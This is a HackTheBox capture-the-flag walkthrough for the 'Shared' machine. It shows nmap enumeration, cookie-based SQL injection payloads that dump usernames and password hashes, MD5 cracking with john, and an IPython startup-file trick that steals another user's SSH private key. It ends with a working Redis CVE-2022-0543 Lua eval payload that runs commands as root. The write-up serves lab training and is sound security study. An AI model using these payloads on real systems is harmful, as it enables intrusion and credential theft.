# Hackthebox - Shared


This post is focused on the walkthrough of Medium Machine Shared from HackTheBox.

<!--more-->

## Enumeration

Starting out with the initial nmap scan.

```bash
nmap -A -vv 10.10.11.172 -oN nmapN

PORT    STATE SERVICE  REASON  VERSION
22/tcp  open  ssh      syn-ack OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 91:e8:35:f4:69:5f:c2:e2:0e:27:46:e2:a6:b6:d8:65 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCsjcm1tYGyIVXP0ioF03lG4xMs6JWNDImzpWnDFVmg7erh4KRulrJvaR2MGkZ4UeVQFz8jva8xsG8r9ALtST48+wRF9TniLsHcuwvRop3EVEmlImth1cjG1+BHyIwoaf7Z9R5ocRw9r5PGDO8hydQTwGv4n/foMQJOu3WhIsz8532utbYpdiERTIAbB2xtC4eolcDNLJ9LptizWpUS5/Jm5BrpYODb6OIM8rWjZyJqJgehA63kqN5oEMP6eoiW+t95DuZoLPLtH+/Y4GAO5gjYmj+rfRDSYlBXQQ94hk/yxqvfMI/jfIgEPXLuCBaE2WPm+SYDUZ0HsuV70F6dobs+q/SNYT1jjSgQFi6hA1ZpSIjGPBl9aaB+vEF5fQcA+z/nWwfaYMqUu3utQNvi0ejZ3UQgbF6P0pVD/NlbX9jT2cRC3Og3rL2Mhhq7kIXYxS6n1UxNbhYD7PQHs7lhDMIinTj2U8Z1TjFujWWO2VGzarJXtZcFKV2TPfEwilN0yM8=
|   256 cf:fc:c4:5d:84:fb:58:0b:be:2d:ad:35:40:9d:c3:51 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBljy8WbFpXolV3MJQIZVSUOoLE6xK6KMEF5B1juVK5pOmj3XlfkjDwPbQ5svG18n7lIuaeFMpggTrftBjUWKOk=
|   256 a3:38:6d:75:09:64:ed:70:cf:17:49:9a:dc:12:6d:11 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIWVTnJGzAgwIazusSrn+ULowTr1vEHVIVQzxj0u2W+y
80/tcp  open  http     syn-ack nginx 1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://shared.htb
|_http-server-header: nginx/1.18.0
443/tcp open  ssl/http syn-ack nginx 1.18.0
|_http-title: Did not follow redirect to https://shared.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| tls-nextprotoneg: 
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=*.shared.htb/organizationName=HTB/stateOrProvinceName=None/countryName=US/localityName=None
| Issuer: commonName=*.shared.htb/organizationName=HTB/stateOrProvinceName=None/countryName=US/localityName=None
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-03-20T13:37:14
| Not valid after:  2042-03-15T13:37:14
| MD5:   fb0b 4ab4 9ee7 d95d ae43 239a fca4 c59e
| SHA-1: 6ccd a103 5d29 a441 0aa2 0e32 79c4 83e1 750a d0a0
| -----BEGIN CERTIFICATE-----
| MIIDgTCCAmmgAwIBAgIUfRY/CTV1JRpsij80nJ2qVo8C0sUwDQYJKoZIhvcNAQEL
| BQAwUDELMAkGA1UEBhMCVVMxDTALBgNVBAgMBE5vbmUxDTALBgNVBAcMBE5vbmUx
| DDAKBgNVBAoMA0hUQjEVMBMGA1UEAwwMKi5zaGFyZWQuaHRiMB4XDTIyMDMyMDEz
| MzcxNFoXDTQyMDMxNTEzMzcxNFowUDELMAkGA1UEBhMCVVMxDTALBgNVBAgMBE5v
| bmUxDTALBgNVBAcMBE5vbmUxDDAKBgNVBAoMA0hUQjEVMBMGA1UEAwwMKi5zaGFy
| ZWQuaHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA4vqqZAfqdwC+
| Bt01RMljAzeU+To4hKQ9PjbDuRzVFNEXgpxC3YAYnDsk+J3r9lsnM1UND7gDuCsN
| r0Gxb+j5o+T8Qxg6iwn6bR/LgXslpW+laN1EUil2kkINxOCmgNKsGpRBiKl2nzXo
| DaMGw0zva7n0FIWH7LBebC6E3Ix37hIrKZqQPUlHh0lZdAWg4WWplVXqMXCbGsnR
| tWt3t0XBnbbKn8PnsChlX7eTxh/SMsh6zKNC7s2qoJYJt9fqcm+sVyIeKVR55nQW
| obVENYdjJfpXqP+CLE+Y1b9lIEyQ+xRVgzkg7e1trWa0IbM5+gySi0Pk4cM1/W1L
| PkmdrH/jeQIDAQABo1MwUTAdBgNVHQ4EFgQUybpz156b8qt/qvfSXeo8TBjan/8w
| HwYDVR0jBBgwFoAUybpz156b8qt/qvfSXeo8TBjan/8wDwYDVR0TAQH/BAUwAwEB
| /zANBgkqhkiG9w0BAQsFAAOCAQEASF9WK54bYGFb7v92oL4krO+04Qsr+kyuKwwk
| lDarRxEdG8b63zf6ug9crDCNmmEQF+XL5TsRyIIBdZheYzZnxmeSueKrRq4oLusb
| LWfsU4vvdUkIp+D6mt9RlT/N7U/LgNZSHLR40V71bAt+gjj98cBAqn5XR0WJY/Eu
| ecG51FuQe6/7VCKje3tzTZtNtSBleT8Jy3lRkx4pa6GwkY/KiJbXFRqAud8Xdblz
| 5mhibkaWk8spaNxc6S6V7xyMC/kjcznfEKHVvocL32kUZfaN8Af9XaVN9UYhecu/
| znFVUvL3buLlMUy7TLdw4bJNJUdFXviq++Gu/n1uER6nSLMwGw==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0
| tls-alpn: 
|   h2
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerating the web it is redirecting us to the domain *shared.htb* so let's add this to our */etc/hosts* file and visit the page again.



From the looks of it, it's a online shopping website where we can add some products to cart and buy them. For checking out the functionality we can buy some stuff and check what it can lead us to.

I simply added a product to the cart and proceeded to checkout. Here it reveals a subdomain *checkout.shared.htb*. We can add this to our */etc/hosts/* file as well and proceed further.

We are redirected to the following page.



Here we have a bunch of stuff we can mess around with. Looking at the cookies, we have a cookie *custom_cart* whose value is reflected back in our page.



It's a key value pair and manipulating the key shows us different output on the product column.



I tried several SQL injections and the following payload worked.

```SQL
'UNION SELECT 1,2,3 -- -
```


Checking the database.

```SQL
'UNION SELECT 1,database(),3 -- -
```


Getting table name.

```SQL
'UNION SELECT 1,table_name, 3 FROM information_schema.tables WHERE table_schema = 'checkout' -- -
```



## Foothold

Assuming there are columns *username* and *password* we can extract user information.

```SQL
'UNION SELECT 1,username, 3 FROM user -- -
```



Extracting the password.

```SQL
'UNION SELECT 1,password, 3 FROM user -- -
```



We now have a password hash and a username. Let's crack the password using john.

The hash is MD5.



Save the hash in a file.

```bash
echo "fc895d4eddc2fc12f995e18c865cf273" > john.hash
```

Crack the hash.

```bash
john --format=Raw-MD5 --wordlist=/home/saad/Documents/wordlists/rockyou.txt john.hash
```



Let's try these creds in ssh.

```bash
ssh james_mason@shared.htb
```



And we are in!

Checking the ```id``` command we are part of a group ```developer```.



Looking for files and folders associated with the group ```developer```.



Visiting the above folder, it contained no files.


Since I couldn't find anything else, I simply ran ```pspy``` to monitor the system processes.

Monitoring the processes, there are a few processes running with ```UID=1001```.



Since it's running ```ipython``` I tried looking for vulnerabilities in ipython and came accross the following vulnerability.


We’d like to disclose an arbitrary code execution vulnerability in IPython that stems from IPython executing untrusted files in CWD. This vulnerability allows one user to run code as another.


Source: https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x

Following the above article, we can run the below commands in ```/opt/scripts_review/``` directory to extract the ssh private key of user ```dan_smith```.

```bash
mkdir -m 777 profile_default
mkdir -m 777 profile_default/startup
echo "import os; os.system('cat ~/.ssh/id_rsa > /tmp/key')" > profile_default/startup/foo.py
```

After a while, we can see the key in ```/tmp``` directory.



## user.txt



## Privilege Escalation

Again looking at the ```id``` command we are part of a new group ```sysadmin```



Looking for files and folders of belonging to this group, We found a binary ```redis_connector_dev```.



Running the binary, I noticed that it is logging to redis using a password.



Running the binary locally, it is establishing a connection on port ```6379``` which is used by redis-cli.



I opened port ```6379``` using ```nc``` and ran the binary again. This time it showd some output on the listening end a string which could be the password.



Looking for vulnerabilities in redis-cli I came across ```CVE-2022-0543```.

With this vulnerability we can execute system commands. You can read about this vulnerability from [here](https://thesecmaster.com/how-to-fix-cve-2022-0543-a-critical-lua-sandbox-escape-vulnerability-in-redis/).

## root.txt

First we need to run redis-cli with the password we found above.

Then we enter the following command to retrieve the root flag.

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /root/root.txt", "r"); local res = f:read("*a"); f:close(); return res' 0
```



**Thanks for reading!**
